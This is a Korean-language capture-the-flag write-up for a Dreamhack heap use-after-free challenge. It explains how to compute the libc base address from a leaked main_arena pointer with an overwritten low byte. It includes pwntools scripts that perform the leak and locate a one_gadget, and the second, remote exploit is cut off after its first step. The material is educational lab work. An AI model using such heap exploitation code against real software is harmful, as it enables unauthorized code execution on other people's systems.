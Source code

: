 <p align="center">
	<a href="/assets/images/TIL220811/Untitled (3).png">
		<img src="/assets/images/TIL220811/Untitled (3).png" width="500">
   	 </a>
</p>

문제에서 주어진 libc에서는 `__malloc_hook`의 offset이 0x3ebc30이므로 `main_arena`**의 offset은 0x3ebc40**임을 알 수 있다.

  - **overwrite된 부분 고려하기**

그런데 이때 세 번째 `custom` 함수를 실행할 때 `"B"`을 data로 입력하기 때문에 `fd`**의 마지막 한 바이트가 0x42로 overwrite**되게 된다. 따라서 `printf`로 출력되는 값은 **0x7fd5db35dc42**가 된다. **libc에 mapping된 주소는 하위 1.5 byte가 일정**하므로, **0x42 - 0xa0만큼 값이 더해졌다**고 생각하면 된다.

  - **libc_base 구하기**

출력값이 나오기 위한 과정을 되돌아보면 아래와 같이 정리할 수 있다:

**출력값 = libc_base + 0x3ebc40 + 96 - 0xa0 + 0x42**

따라서 **libc_base** = 출력값 - 0x3ebc40 - 96 + 0xa0 - 0x42 = **출력값 - 0x3ebc42**

따라서 아래와 같이 exploit하면 libc_base를 구할 수 있고, 이로부터 one_gadget의 주소도 구할 수 있다. one_gadget의 offset은 `one_gadget`을 이용해 구했다.

```python
from pwn import *
p = process("./uaf_overwrite")

def custom(size, data, idx):
    p.sendlineafter(">", "3")
    p.sendlineafter(": ", str(size))
    p.sendafter(": ", data)
    p.sendlineafter(": ", str(idx))

custom(0x500, "AAAA", -1)
custom(0x500, "AAAA", 0)
custom(0x500, "B", -1)
libc_base = u64(p.recvline()[:-1].ljust(8, b"\x00")) - 0x3ebc42
og = libc_base + 0x10a41c
```

### Exploit

```python
from pwn import *

p = remote("host3.dreamhack.games", 15336)

def human(weight, age):
    p.sendlineafter(">", "1")
    p.sendlineafter(": ", str(weight))
    p.sendlineafter(": ", str(age))

def robot(weight):
    p.sendlineafter(">", "2")
    p.sendlineafter(": ", str(weight))

def custom(size, data, idx):
    p.sendlineafter(">", "3")
    p.sendlineafter(": ", str(size))
    p.sendafter(": ", data)
    p.sendlineafter(": ", str(idx))

custom(0x500, "AAAA", -1)
```